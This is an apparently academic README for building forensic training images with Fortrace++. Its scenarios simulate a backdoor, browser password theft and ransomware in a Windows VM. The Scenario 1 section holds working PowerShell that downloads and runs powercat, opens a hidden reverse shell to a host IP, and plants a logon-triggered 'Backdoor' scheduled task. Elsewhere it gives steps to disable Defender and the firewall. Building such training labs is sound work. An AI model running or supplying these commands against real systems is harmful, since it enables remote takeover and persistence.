

# Project Work (APL): Automated Image Creation for Forensic Data Analysis with Fortrace++
- **main focus**: Malicious and Malware Scenarios, Automation
## Table of Contents
- [Introduction](#introduction)
- [Task Description](#task-description)
- [Installation of Fortrace++](#installation-of-fortrace)
  - [Kali Linux](#kali-linux)
  - [EndeavourOS (Arch Linux)](#endeavouros-arch-linux)
  - [Preparing the Windows ISO](#preparing-the-windows-iso)
  - [Setting up the Windows VM](#setting-up-the-windows-vm)
  - [Preparing the Windows VM for the Scenarios](#preparing-the-windows-vm-for-the-scenarios)
- [Scenarios](#scenarios)
  - [Scenario 1: Easy – Unauthorized Remote Access via Backdoor](#scenario-1-easy--unauthorized-remote-access-via-backdoor)
  - [Scenario 2: Medium – Exfiltrate Passwords from the local Database of the Webbrowser](#scenario-2-medium--exfiltrate-passwords-from-the-local-database-of-the-webbrowser)
  - [Scenario 3: Hard - File Encryption (Ransomware-like Behavior)](#scenario-3-hard---file-encryption-ransomware-like-behavior)
- [Expected Artifacts and Analysis](#expected-artifacts-and-analysis)
- [Summary and Conclusion](#summary-and-conclusion)

## Table of Contents

- [Introduction](#introduction)
- [Task Description](#task-description)
- [Installation of Fortrace++](#installation-of-fortrace)
  - [Kali Linux](#kali-linux)
  - [EndeavourOS (Arch Linux)](#endeavouros-arch-linux)
  - [Preparing the Windows ISO](#preparing-the-windows-iso)
  - [Setting up the Windows VM](#setting-up-the-windows-vm)
  - [Preparing the Windows VM for the Scenarios](#preparing-the-windows-vm-for-the-scenarios)
- [Scenarios](#scenarios)
  - [Scenario 1: Easy – Unauthorized Remote Access via Backdoor](#scenario-1-easy-unauthorized-remote-access-via-backdoor)
    - [Description](#description)
    - [Technical Implementation](#technical-implementation)
    - [Configuration and Execution](#configuration-and-execution)
  - [Scenario 2: Medium – Exfiltrate Passwords from the Local Database of the Web Browser](#scenario-2-medium-exfiltrate-passwords-from-the-local-database-of-the-web-browser)
    - [Description](#description-1)
    - [Technical Implementation](#technical-implementation-1)
    - [Configuration and Execution](#configuration-and-execution-1)
  - [Scenario 3: Hard – File Encryption (Ransomware-like Behavior)](#scenario-3-hard-file-encryption-ransomware-like-behavior)
    - [Description](#description-2)
    - [Technical Implementation](#technical-implementation-2)
    - [Configuration and Execution](#configuration-and-execution-2)
- [Expected Artifacts and Analysis](#expected-artifacts-and-analysis)
  - [Forensic Artifacts](#forensic-artifacts)
  - [Network Traffic Analysis](#network-traffic-analysis)
  - [Memory and Disk Analysis](#memory-and-disk-analysis)
  - [Converting `.raw` to `.e01` for Analysis](#converting-raw-to-e01-for-analysis)
- [General Troubleshooting](#general-troubleshooting)
- [Summary and Conclusion](#summary-and-conclusion)
  - [Evaluation of Fortrace++](#evaluation-of-fortrace)
  - [Limitations and Possible Improvements](#limitations-and-possible-improvements)


---

## Introduction

This project work, part of the Master's program in Applied Computer Science within the "Forensic Data Analysis" module, focuses on the creation and analysis of VM images using the open-source software **Fortrace++**. Controlled scenarios depicting common attack vectors and system compromises are generated and automated using Python scripts and YAML configuration files. The resulting VM image serves educational purposes, providing practical training in forensic analysis.

In simple terms: Targeted attacks and malware simulations are executed in a virtual environment, which can later be analyzed using forensic tools (e.g., Autopsy, Magnet Axiom).

---

## Task Description

- **Creation of a VM Image:** Using Fortrace++ and Python, simulated attack scenarios are automatically performed in a VM.
- **Documentation:** Detailed description of each scenario, technical procedures, and resulting artifacts in Markdown.
- **Focus on Automation:** Scenarios should be largely automated for repeatability and reproducibility.
- **Educational Purpose:** The final image is intended for training and research in forensic analysis.

---

## Installation of Fortrace++
- Installation steps are documented here for completeness. 
For individual installations and potential issues, 
please refer to the official [Fortrace++ documentation](https://gitlab.com/DW0lf/fortrace#installation).
- I used two Maschines while working on the task (I. Kali Linux, II. EndeavourOS (similar to Arch Linux, the distro used by the Fortrace++ project maintainer))

### Kali Linux
- System setup for this documentation:
    - OS: Kali GNU/Linux kali-rolling (kali-rolling) x86_64
    - Kernel: 6.11.2-amd64
    - CPU: Intel i7-8700K (12) @ 4.7GHz
    - GPU: NVIDIA GeForce GTX 1080 Mobile
    - Memory: 64 GiB
```sh
git clone https://gitlab.com/DW0lf/fortrace.git
# Debian (Kali) / Ubuntu
sudo apt install qemu-kvm libvirt-daemon-system libvirt-dev python3 python3-dev
sudo adduser $USER libvirt
sudo apt install build-essential
sudo apt install virt-manager
sudo apt install tesseract-ocr tesseract-ocr-eng wireshark-common libguestfs-tools libguestfs-dev
sudo apt install python3-venv
```

**Create a Virtual Environment for Python**
- In the future, a GUI setup will be available or is at least planned, but as of February 2025, manual command-line and Python setup is required.

```sh
python -m venv .venv
source .venv/bin/activate
FILE_SUFFIX=$(python --version | grep -oP '(?<=Python )\d+\.\d+' | sed 's/\./_/g')
pip install -r requirements_lock_$FILE_SUFFIX.txt
```

- If you plan to modify the VM disk image with ForTrace++ (e.g., to place files there), install the following dependency:
    - Check for the latest version [here](https://download.libguestfs.org/python/)
    - `pip install http://libguestfs.org/download/python/guestfs-1.40.2.tar.gz`

**Download Submodules**
```
git submodule init
git submodule update --force --recursive --init --remote
```

**Setup the Environment**
```
PYTHON_VERSION=$(python --version | grep -oP '(?<=Python )\d+\.\d+')
readlink -f src > .venv/lib/python$PYTHON_VERSION/site-packages/fortrace_src.pth
```

**Usage**
- Refer to the official documentation: https://fortrace.readthedocs.io/en/latest/index.html

---

### EndeavourOS (Arch Linux)
- System Specifications:
  - OS: EndeavourOS x86_64 (Dual-Boot with Win10)
  - Kernel: Linux 6.13.2-arch1-1
  - CPU: AMD Ryzen 7 4700U (8) @ 2.00 GHz
  - GPU: AMD Radeon Vega Series / Radeon Vega Mobile Series [Integrated]
  - Memory: 16 GiB

```sh
git clone https://gitlab.com/DW0lf/fortrace.git
sudo pacman -Syu --needed libvirt qemu-system-x86 iptables-nft dnsmasq
sudo usermod -aG libvirt $USER
sudo systemctl enable --now libvirtd.service
sudo pacman -Syu virt-manager
sudo pacman -Syu tesseract tesseract-data-eng wireshark-cli guestfs-tools
sudo usermod -aG wireshark $USER
```
- Reboot system or relogin with the user to let take effect the new assigned groups
  - verify: `groups` (user should have groups "wireshark" and "libvirt")

**Create a Virtual Environment for Python**
```sh
python -m venv .venv
source .venv/bin/activate
FILE_SUFFIX=$(python --version | grep -oP '(?<=Python )\d+\.\d+' | sed 's/\./_/g')
pip install -r requirements_lock_$FILE_SUFFIX.txt
```

- If you plan to modify the VM disk image with ForTrace++ (e.g., to place files there), install the following dependency:
    - Check for the latest version [here](https://download.libguestfs.org/python/)
    - `pip install http://libguestfs.org/download/python/guestfs-1.40.2.tar.gz`
    - last version (1.40.2) released 2019 and seems not to be working on Arch (ERROR: Failed building wheel for guestfs)

**Download Submodules**
```
git submodule init
git submodule update --force --recursive --init --remote
```

**Setup the Environment**
```
PYTHON_VERSION=$(python --version | grep -oP '(?<=Python )\d+\.\d+')
readlink -f src > .venv/lib/python$PYTHON_VERSION/site-packages/fortrace_src.pth
```
---

### Preparing the Windows ISO
- Download the official Win10 .iso from [here](https://www.microsoft.com/en-us/software-download/windows10) (recommended Language: English International)
  - To bypass Microsoft's restrictions and download the English ISO in Germany, the following tricks may be necessary:
  1. Open the developer console in your browser (F12) → Switch device emulation to a mobile device to enable the ISO download option.
  2. Use Microsoft Edge (other browsers may cause download errors, or adjust the user agent to mimic Edge).
  3. Use a VPN and select a US location (try different servers until one works).

#### Create an Unattended Windows 10 ISO
- the current official instruction guide has many manual steps to initially prepare the Windows 10 VM
- One way to speed up and, above all, automate this process is to create a *fully unattended Windows 10 installation ISO* by modifying the installation media
- This allows you to automate the entire setup process, including disk partitioning, user creation, and software installation

**Steps for the ISO Modification**
1. Extract the ISO
- Use a tool like **7-Zip** or **Rufus** to extract the contents
  - `sudo pacman -S p7zip`
  - `7z x Win10_22H2_EnglishInternational_x64v1.iso -o/DESTINATION/PATH/Win10_ISO`
- or just mount it in Linux/Windows and copy the files
  - `sudo mount /YOUR_PATH/Win10_22H2_Unattended_BIOS.iso /mnt/iso`

2. Create an `autounattend.xml` File
- This file automates the Windows installation by answering all prompts
- generate one using **Windows System Image Manager (SIM)** (part of Windows ADK)
  - or use an online tool like this: https://www.windowsafg.com/win10x86_x64_uefi.html
  - **Recommended alternative:** https://schneegans.de/windows/unattend-generator/
    - more options for customization available
    - it's even possible to add custom PowerShell scripts that run after the automatic installation process
    - there are multiple manual steps in the Fortrace Documentation to prepare the Windows 10 VM that can be automated this way
- example `autounattend.xml` can be found in the `scripts/`-folder
  - during the installation process is no user interaction required
  - some of the automated steps are for instance:
    - Language and Locale Configuration (System Locale: `en-US`)
    - Partitioning and Disk Formatting (via `diskpart`)
    - Install OS on `Disk 0, Partition 2`
    - Accept EULA automatically
    - Use generic product key (Windows is now activated)
    - Set the computer name to `fortrace-PC`
    - Create user `fortrace` (Administrator)
    - Auto-logon enabled for one session with stored password
    - Mouse Settings Tweaks for Default User (Modify registry keys to disable pointer acceleration)
    - it's also possible to turn off Windows Defender (interesting for the Malware Scenarios)

3. Place `autounattend.xml` in the ISO
- Copy the `autounattend.xml` file into `\sources\` for a network install or just into the root `\` of the extracted ISO folder for booting from USB / CD-ROM (default case for VMs)

4. Rebuild the ISO
- Windows (using `oscdimg` from Windows ADK):
  - Installation: `winget install --id Microsoft.WindowsADK --source winget` (could take a while, approx. 2GB of disk space needed)
  - If command doesn't work a possible fix is to add it to the PATH for this session: `$env:Path += ";C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg"`
```sh
oscdimg -m -o -u2 -udfver102 -bootdata:2#p0,e,bD:\YOUR_PATH\Win10_22H2_EnglishInternational_x64v1\boot\etfsboot.com#pEF,e,bD:\YOUR_PATH\Win10_22H2_EnglishInternational_x64v1\efi\microsoft\boot\efisys.bin D:\YOUR_PATH\Win10_22H2_EnglishInternational_x64v1 D:\YOUR_PATH\Win10_22H2_Unattended.iso
```
- Linux (using `xorriso`):
  - The Windows approach is recommended, as the building process on Linux was not as successful and resulted in significant time loss
```sh
xorriso -as mkisofs -iso-level 3 -full-iso9660-filenames -volid "Win10" \
-eltorito-boot boot/etfsboot.com -no-emul-boot -boot-load-size 8 \
-eltorito-alt-boot -e efi/boot/bootx64.efi -no-emul-boot \
-o Win10Unattended.iso extracted_iso_folder/
```

5. Test the ISO in a Virtual Machine to verify if the installation runs without manual input.

- **Important** (if using the virt-manager): Before starting the installation, configure the VM in **virt-manager** to use either **UEFI** or **BIOS** as needed since it is not possible to change that setting after the first initialisation

**BIOS Mode**  
- The installation works without any keyboard interaction.  
- Important: In the **unattend.xml** file, set **MBR** instead of **GPT** to ensure BIOS compatibility.  

**UEFI Mode** 
- The installation works, but requires **one** keyboard input to start.  


**Optional Customizations**
- **Pre-install drivers**: Add them to `\$OEM$\$1\Drivers\` in the ISO.
- **Pre-install software**: Use `setupcomplete.cmd` in `\$OEM$\$1\Setup\Scripts\`.
- **Auto-activate Windows**: Embed a volume license key in `autounattend.xml`.

- There are also great ressources to optimize the unattended Windows ISO creation process
  - https://github.com/memstechtips/UnattendedWinstall
  - https://github.com/memstechtips/WIMUtil

### Setting up the Windows VM
The Instructions from the official Fortrace++ Documentation are describing multiple manual steps to create the Windows VM with the virt-manager GUI, but there is also the possibility to automate this process with a script.

- Use the `create_vm.sh` script for an automated Win10 VM creation or manually follow the steps in the [official documentation](https://gitlab.com/DW0lf/fortrace/-/tree/main/examples/Windows/ForTrace_Workshop/VeraCrypt#installation-of-windows-10-vm)
  - Notice: The script is just a reference and needs still to be adjusted for the system it's running on
  - with more testing, there could be the possibility to create a generic script, that works on most of the user systems


- Using **libvirt** and the **virt-manager**
  - to check the network connections: `virsh net-list --all` (default needs to be running)
  - start default network: `virsh net-start default` or on-boot: `virsh net-autostart default`

**Troubleshooting** 
- #1: Error starting network 'default': internal error: firewalld can't find the 'libvirt' zone that should have been installed with libvirt
  - `sudo firewall-cmd --permanent --new-zone=libvirt`
  - `sudo firewall-cmd --permanent --zone=libvirt --set-target=ACCEPT`
  - `sudo firewall-cmd --reload`
  - `sudo firewall-cmd --permanent --zone=libvirt --add-interface=virbr0`
  - `sudo firewall-cmd --reload`
  - verify: `sudo firewall-cmd --get-active-zones`
  - `sudo virsh net-start default` --> verify: `sudo virsh net-list --all`
- #2: how to use virsh commands without `sudo`
  - check if `s -l /var/run/libvirt/libvirt-sock` is owned by root
  - change to libvirt group: `sudo chown root:libvirt /var/run/libvirt/libvirt-sock`
  - `sudo chmod 660 /var/run/libvirt/libvirt-sock`
  - `nano ~/.config/libvirt/libvirt.conf` --> add the line: `uri_default = "qemu:///system"`
  - restart libvirt: `sudo systemctl restart libvirtd`
  - now no sudo is needed: `virsh net-list --all`

**Create Snapshots**
- after the preparation of the VM make sure to make a snapshot (maintain a secure state of the virtual machine)
- create multiple snapshots after some more customization/preparation of the maschine to act as an entry point for the Fortrace++ Scenarios
- use the GUI (virt-manager): Show virtual maschine details --> Manage VM snapshots
- commandline: `virsh snapshot-create-as "$VM_NAME" "Clean_Install" "Snapshot for ForTrace++ scenario" --atomic`

### Preparing the Windows VM for the Scenarios
- For the given example scenario (Windows, VeraCrypt) in the Fortrace++ Repo are some more preparation steps described
- These can be also automated with a PowerShell script (immediately with the first unattended installation or later on)
`scripts/vm_preparation.ps1` (run as administrator)
  - **Enable Script Execution**: `Set-ExecutionPolicy RemoteSigned -Scope CurrentUser -Force`
  - **(Optional) Revert Execution Policy**: `Set-ExecutionPolicy Restricted -Scope CurrentUser -Force`
- Windows VM: `Win+X` > press `A` or select `PowerShell as Administrator`
  - `cd C:\Users\fortrace\Desktop\`
  - `.\powershell_script.ps1`

```ps1
# Run as Administrator
Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Ensure NuGet Provider is Installed (No User Input)
Write-Host "Installing NuGet Provider..."
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force

# 2. Ensure Winget is Installed
Write-Host "Checking for Winget..."
if (-Not (Get-Command winget -ErrorAction SilentlyContinue)) {
    Write-Host "Winget not found. Installing..."
    $wingetInstaller = "$env:TEMP\winget.msixbundle"
    Invoke-WebRequest -Uri "https://github.com/microsoft/winget-cli/releases/latest/download/Microsoft.DesktopAppInstaller_8wekyb3d8bbwe.msixbundle" -OutFile $wingetInstaller
    Add-AppxPackage -Path $wingetInstaller
}

# 3. Install VeraCrypt Silently (No User Prompts)
Write-Host "Installing VeraCrypt..."
winget install --id IDRIX.VeraCrypt -e --silent --accept-source-agreements --accept-package-agreements

# 4. Set Network Profile to Private
Write-Host "Setting Network Profile to Private..."
$network = Get-NetConnectionProfile
if ($network) {
    Set-NetConnectionProfile -Name $network.Name -NetworkCategory Private
}

# 5. Disable Notifications
Write-Host "Disabling Windows Notifications..."
$RegPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\PushNotifications"
Set-ItemProperty -Path $RegPath -Name ToastEnabled -Value 0

# 6. Disable 'SecureBootEncodeUEFI' in Task Scheduler
Write-Host "Disabling SecureBootEncodeUEFI Task..."
$taskName = "\Microsoft\Windows\PI\SecureBootEncodeUEFI"
if (Get-ScheduledTask -TaskName $taskName -ErrorAction SilentlyContinue) {
    Disable-ScheduledTask -TaskName $taskName
}

# 7. Apply Windows Updates (No User Input)
Write-Host "Applying Windows Updates..."
Install-Module PSWindowsUpdate -Force -SkipPublisherCheck
Install-WindowsUpdate -AcceptAll -IgnoreReboot

# 8. Restart the System if Updates Require It
Write-Host "Restarting System..."
shutdown /r /t 10

# 9. After VM Shutdown, Take a Snapshot (Run from Host)
Write-Host "Once the VM shuts down, take a snapshot from the host machine:"
Write-Host "virsh snapshot-create-as win10_bios 'veracrypt' 'Snapshot after installation' --atomic"
```
- Create the Snapshot: `virsh snapshot-create-as win10_bios "veracrypt" "Snapshot for VeraCrypt scenario" --atomic`

### How to copy the PowerShell script into the VM
- over the **network** (create SAMBA share on the Linux host)
  - `sudo nano /etc/samba/smb.conf`
```ini
[global]
   workgroup = WORKGROUP
   server string = Samba Server
   security = user
   map to guest = Bad User

[shared]
   path = /home/YOUR_USER/shared
   read only = no
   guest ok = yes

```
- `sudo systemctl restart smb`
- On the Win10 Host: `\\192.168.122.1\shared`
- or install the [SPICE Guest Tools](https://www.spice-space.org/download/windows/spice-guest-tools/spice-guest-tools-latest.exe) on the Windows 10 VM to allow copy/paste

### Enable Autologin
- to safe time running the scenarios
- Skipping Login via Auto-Login Configuration
  - run these PowerShell commands on the VM (with admin privileges)
```ps1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "AutoAdminLogon" -Value "1"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultUserName" -Value "fortrace"
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword" -Value "fortrace"
```
- Tested, but doesn't seem to work with default Fortrace-Scenarios
  - commented out: `# domain.env.login(config["domain"]["username"], config["domain"]["password"])`
  - but got the following error:
```py
File "/home/user/fortrace/src/fortrace/utility/desktop_environments/Windows/Windows.py", line 79, in open_application
    raise DesktopEnvironmentException(
        "Windows application window is not responding as expected"
    )
fortrace.utility.exceptions.DesktopEnvironmentException: Windows application window is not responding as expected
```
---

## Scenarios

### Scenario 1: Easy – Unauthorized Remote Access via Backdoor

**Description:**

This scenario simulates a simple case where a laptop is left unattended. An attacker takes the opportunity to set up remote access by installing a backdoor on the system. This backdoor can later be detected in a forensic analysis (e.g., using Autopsy).

**Overview:**

- **Environment:**  
  - VM image where the laptop (simulated machine) is operated in an "unattended" state.
  - Network: Local network allowing remote access.
- **Execution:**
  1. **Initial State:** The laptop is powered on but left unattended.
  2. **Attack:** A script is automatically triggered (via scheduled tasks or other triggers) to establish a remote connection.
  3. **Backdoor Installation**: The reverse shell is executed immediately, and a scheduled task is created to re-establish the connection upon user logon
  4. **Logging:** All actions (connection, installation, system registration) are recorded in log files.

- **Forensic Artifacts:**
  - Log entries documenting the time and process of backdoor installation.
  - System modifications (new services, changed configurations).
  - Can be found by analyzing the created Image dump of the Scenario VM
  - `scenario_1.raw` --> convert to `.E01` and analyze with Autopsy or Magnet AXIOM
  - Network connections evidencing remote access.
    - A .pcapng file that records all network communication during scenario execution
    - Can be analyzed using Wireshark
    - Contains all network traffic during scenario execution

> **Note**: The Image Dump (.raw files) are automatically created at the end of the scenario execution and saved at the following path `/var/tmp/SCENARIO_NAME/VM_NAME`, if the `dump_image` is set to `True` in the YAML-Configuration

> **Note for the Network Dump**: The .pcap-File is created if the `start_sniffer` is set to `True`
--- 
**Technical Implementation**

- **Host System Preparation:**
  - Install netcat (or a similar tool) on the host system (e.g. using `sudo pacman -S netcat`)
  - On the host, start a listener to await incoming reverse shell connections:
  ```
  nc -lvnp 4444
  ```
  - Configure firewall on Linux host:
    ```bash
    # Identify network zones
    sudo firewall-cmd --get-active-zones
    # Sample output:
    # libvirt
    # interfaces: virbr0
    # public (default)
    # interfaces: wlan0
    
    # Add firewall rules
    sudo firewall-cmd --zone=libvirt --add-port=4444/tcp --permanent
    sudo firewall-cmd --zone=libvirt --add-interface=virbr0 --permanent
    sudo firewall-cmd --reload
    
    # Verify the rules
    sudo firewall-cmd --list-all --zone=libvirt
    ```

> ✔ Limits access to port 4444 so that only the Windows VM can connect

> ✔ Ensures Linux host remains protected from other network attacks

**Prerequisites for the Windows VM:**

It is recommended that Windows Defender is deactivated for the VM prior to deployment. This can be achieved via the autounattend.xml configuration or by disabling Defender manually through registry modifications.
Since the signature of the ReverseShell used is already well-known and detected, disabling the Windows Defender is mandatory.

**Deactivate Windows Defender - prior deployment (Recommended)** 

The Windows VM requires specific preparation to ensure proper scenario execution. This is accomplished through a customized Windows installation using `autounattend[disabled windows defender][BIOS].xml` which includes the following tweaks:

- **Improved Performance**: Custom ISO with performance tweaks and debloating
- **Windows Defender Disabled**: Disables Defender services (Sense, WdBoot, WdFilter, WdNisDrv, WdNisSvc, WinDefend) during Windows PE setup stage of Windows Setup and thus prevents the MsMpEng.exe process from running.
- **File Explorer Enhancements**:
  - Always show file extensions for known file types
  - By default, File Explorer would hide extensions for known file types.
  - Show all files, including protected operating system files (files that have the Hidden or the System attribute set)
- **Privacy Improvements**:
  - No Bing results when searching in Start menu
  - Disable app suggestions / Content Delivery Manager
  - Hide Edge First Run Experience
- **PowerShell Configuration**: Sets `ExecutionPolicy` to `RemoteSigned` to allow execution of unsigned .ps1 files
- **System Optimization**:
  - Turned off system sounds
  - Disabled Enhance Pointer Precision mouse setting

> Note: Windows Update can be optionally disabled by creating a scheduled task (named PauseWindowsUpdate) that continuously pauses updates, though this is not configured in the current XML.

**Disabling Defender via Registry - after initial deployment**
- **Tamper Protection**: Windows 10/11 includes Tamper Protection, which prevents Defender settings from being altered. This protection must be disabled manually before applying registry modifications:
  
  ```powershell
  Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "DisableAntiSpyware" -Value 1
  ```
- **Windows Firewall**: Should be disabled to allow the reverse shell connection:
  ```powershell
  Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
  ```
> Notice: Windows may require a reboot for changes to take effect.

**Testing the ReverseShell**

While the scenario uses a direct download approach, Powercat can also be side-loaded using:
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

The reverse shell command with verbose output:
```powershell
powercat -c 192.168.122.1 -p 4444 -e cmd.exe -Verbose
```

> **ReverseShell in action**   
>   
>

---
#### Explaination of the scenario1.py and scenario1.yaml
**Initialization Block**
```python
import pathlib
from time import sleep
import numpy.random
from fortrace.core.simulation_monitor import SimulationMonitor
from fortrace.core.virsh_domain import GraphicalVirshDomain
from fortrace.fortrace_definitions import FORTRACE_ROOT_DIR
from fortrace.utility.applications.application import ApplicationType
from fortrace.utility.applications.console.powershell import PowerShell
from fortrace.utility.logger_helper import setup_logger

# Initialize logger using ForTrace++ logging helper
logger = setup_logger(__name__)
```
- Imports necessary libraries
- Sets up logging for the scenario

**Main Scenario Function**
```python
def scenario_1():
    monitor = SimulationMonitor(
        pathlib.Path(
            FORTRACE_ROOT_DIR,
            "scenarios/scenario1-backdoor/scenario1.yaml",
        )
    )
    domain = monitor.participant[0].domain  # type: GraphicalVirshDomain
    config = monitor.participant[0].config

    # Boot the Windows 10 VM with the provided snapshot and network settings.
    domain.boot(
        start_sniffer=config["domain"]["start_sniffer"],
        snapshot=config["domain"]["snapshot"],
    )

    # Log in to the system using credentials specified in the configuration.
    domain.env.login(config["domain"]["username"], config["domain"]["password"])

    # Log the unattended state of the system.
    logger.info("System state: Unattended Windows 10 machine, awaiting attacker action.")

    # Execute the backdoor installation scenario.
    backdoor_scenario(domain, config)

    # Post-scenario actions such as log consolidation and image dump processing.
    monitor.post_scenario()
```
- Initializes simulation monitor with YAML config
- Boots VM using specified snapshot
- Logs in with credentials from config
- Executes backdoor installation
- Performs post-scenario actions (logs and image dump)

**Backdoor Installation Function Start**
```python
def backdoor_scenario(domain: GraphicalVirshDomain, config: dict):
    # Log the initiation of the backdoor installation.
    logger.info("Attacker: Initiating unauthorized remote access via backdoor installation on Windows 10.")

    # Open a PowerShell instance with elevated privileges.
    ps = domain.env.open_application(
        ApplicationType.TERMINAL, "Windows PowerShell", run_as_administrator=True
    )  # type: PowerShell
    sleep(2)  # Allow the PowerShell window to fully initialize.
```
- Logs attack initiation
- Opens PowerShell with admin privileges
- Waits for PowerShell initialization

**Step 1: Download Powercat Payload**
```python
    # Step 1: Download the Powercat payload and save it in a secure directory.
    ps.send_command(r"$Destination = 'C:\ProgramData\powercat.ps1'", get_output=False)
    sleep(1)
    ps.send_command(r"Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1' -OutFile $Destination", get_output=False)
    sleep(2)
```
- Sets destination path for Powercat payload
- Downloads Powercat script using Invoke-WebRequest
- Used the github project [powercat](https://github.com/besimorhino/powercat) (Netcat: The powershell version) to establish the ReverseShell
- Creates first forensic artifact (downloaded file)

**Step 2: Load Powercat into Memory**
```python
    # Step 2: Dot-source the downloaded script to load the 'powercat' function into memory.
    ps.send_command(r". C:\ProgramData\powercat.ps1", get_output=False)
    sleep(1)
```
- Dot-sources the Powercat script
- Loads Powercat function into current PowerShell session
- Creates memory-based artifact

**Step 3: Execute Reverse Shell in a new hidden process**
```python
    attacker_ip = config["backdoor"]["attacker_ip"]
    reverse_shell_command = rf'Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -Command `"`. C:\ProgramData\powercat.ps1; powercat -c {attacker_ip} -p 4444 -e cmd.exe`""'
    ps.send_command(reverse_shell_command, get_output=False)
    sleep(2)
```
- Gets attacker IP from config
- Creates advanced reverse shell command using Start-Process with hidden window
- Loads Powercat and executes it in a hidden PowerShell window
- Creates network traffic artifact

**Step 4 & 5: Create Persistence Mechanism Using Script File**
```python
    # Step 4: Create a PowerShell script (backdoor.ps1) as preparation for the Scheduled Task for Persistence on Logon
    # Define attacker IP
    ps.send_command(rf'$attacker_ip = "{attacker_ip}"', get_output=False)

    # Define the first script line
    ps.send_command(rf'$script_line1 = ". C:\ProgramData\powercat.ps1"', get_output=False)

    # Define the second script line
    ps.send_command(rf'$script_line2 = "powercat -c $attacker_ip -p 4444 -e cmd.exe"', get_output=False)

    # Define the script path
    ps.send_command(rf'$script_path = "C:\ProgramData\backdoor.ps1"', get_output=False)

    # Concatenate the script lines into script content
    ps.send_command(rf'$script_content = $script_line1 + "`n" + $script_line2', get_output=False)

    # Write the script content to a file
    ps.send_command(rf'$script_content | Out-File -FilePath $script_path -Encoding UTF8', get_output=False)
    sleep(2)

    # Step 5: Create the scheduled task to run the backdoor.ps1 script at logon
    create_scheduled_task_command = rf'''
    schtasks.exe /create /tn "Backdoor" /tr "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\ProgramData\backdoor.ps1" /sc onlogon /f
    '''
    ps.send_command(create_scheduled_task_command, get_output=False)
    sleep(2)
```
- Creates a dedicated backdoor.ps1 script in C:\ProgramData\
- Script contains commands to load Powercat and execute the reverse shell
- Creates scheduled task to run this script at user logon
- Uses `-File` parameter to avoid command-line escaping issues
- Creates significant forensic artifacts (persistent script file and scheduled task)

**YAML Configuration Elements**
```yaml
name: Scenario 1 Backdoor
description: Configuration file for the first Scenario. Unauthorized Remote Access via Backdoor
collections:
root: /var/tmp/ForTrace_scenario_1
overwrite_root: True
domain:
  username: "fortrace"
  password: "fortrace"
  name: "win10_defender"
  network: "default"
  os_type: OSType.WINDOWS
  desktop_env: DesktopEnvironmentType.Windows_10
  start_sniffer: False
  snapshot: "clean_install_vga"
  dump_images: True
explorer:
  path: 'C:\Users\fortrace\Desktop\'
backdoor:
  attacker_ip: "192.168.122.1"
```
- Defines scenario parameters
- Sets VM credentials (`fortrace`/`fortrace`)
- Specifies VM snapshot (`clean_install_vga`)
- Enables image dumping for forensic analysis
- Sets attacker IP (`192.168.122.1`)
- Defines output directory (`/var/tmp/ForTrace_scenario_1`) (used for saving the Image Dumps)


**Usage Instructions**
1. Copy the Python file (`scenario1.py`) and the YAML configuration file (`scenario1.yaml`) from the folder `scenario1-backdoor/` to the appropriate location within the ForTrace++ installation directory
2. The folder structure should resemble the following:
   ```
   fortrace/
     ├── scenarios/
     │    └── scenario1-backdoor/
     │           ├── scenario1.py
     │           └── scenario1.yaml
     └── .venv/
   ```
3. Activate the Python virtual environment and execute the scenario:
   ```
   source .venv/bin/activate
   python scenarios/scenario1-backdoor/scenario1.py
   ```
4. Simultaneously, on the host system, start the Netcat listener:
   ```
   nc -lvnp 4444
   ```
5. It is imperative that no manual interaction occurs with the VM during the automation process to maintain the integrity of the scenario
> **(Optional)**: Observe the automation process through virt-manager as it interacts with the VM. 
---

### Scenario 2: Medium – Exfiltrate Passwords from the local Database of the Webbrowser

#### **Description**
This scenario demonstrates how **saved passwords** in a web browser can be extracted and exfiltrated if an attacker gains access to a system. Many users store passwords directly in their browsers for convenience without using **secure password managers**. This scenario builds upon **Scenario 1**, where an unattended machine was compromised, allowing an attacker to execute a script that retrieves stored credentials.

The extracted credentials are then **saved locally** and can be **uploaded to an attacker's web server** for further use.

---

### **Real-World Attack Scenario**
1. **User Behavior Leading to Vulnerability**
   - A user frequently logs into **PayPal, Reddit, and X (Twitter)** and **chooses to save passwords** in Microsoft Edge for convenience.
   - The user **does not use an external password manager** and relies solely on the browser's built-in password storage.

2. **Compromise of the System**
   - The user **leaves their Windows 10 machine unattended** (as demonstrated in **Scenario 1**).
   - An attacker gains access to the system and **executes a password extraction script** that retrieves saved credentials.

3. **Password Extraction and Exfiltration**
   - The script accesses the **SQLite database storing passwords** in Microsoft Edge.
   - It decrypts stored credentials and **saves them in a text file**.
   - The credentials are then **uploaded to a remote web server** controlled by the attacker.

---

## **Overview**

### **Environment**
- A **Windows 10 virtual machine (VM)** with a **pre-installed web browser** (Microsoft Edge).
- A **local network connection** allowing exfiltration of credentials to an attacker's machine.

### **Execution**
1. **System Preparation:**
   - Install Python and necessary packages.
   - Download and prepare the extraction script.
   - Fill the Microsoft Edge browser with credentials for some Web sites or online services

2. **Attack Execution:**
   - The script extracts **saved passwords from the Edge browser SQLite database**.
   - The extracted credentials are stored in a **text file**.
   - The credentials are **uploaded to a remote web server** controlled by the attacker.

